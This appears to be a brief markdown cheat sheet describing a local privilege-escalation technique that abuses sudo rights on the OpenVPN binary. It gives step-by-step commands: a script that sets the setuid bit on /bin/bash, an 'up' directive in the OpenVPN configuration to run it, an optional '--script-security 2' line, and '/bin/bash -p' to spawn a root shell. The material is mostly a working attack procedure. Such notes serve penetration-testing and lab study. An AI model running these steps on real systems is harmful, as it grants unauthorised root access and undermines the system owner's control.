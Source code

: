 # OpenVPN Privilege Escalation

## REQUIREMENTS:

### 1) Sudo privileges on OpenVPN binary

### 2) Write Privileges on OpenVPN configuration file

## STEPS:

#### 1) Create a script wherever you have write privileges: 

#### 2) Script contents: 

    #!/bin/bash 
    
    chmod +s /bin/bash

#### 3) In the configuration file, add a one-liner to execute script upon initialization: 

#### 4) 

    up /home/USER/script.sh

#### 5) Run OpenVPN with sudo

#### 6) 

    /bin/bash -p (Spawn root shell)

## TIP: If the script fails to execute, add another one liner above the one you added in the configuration file:

#### 7) 

    --script-security 2
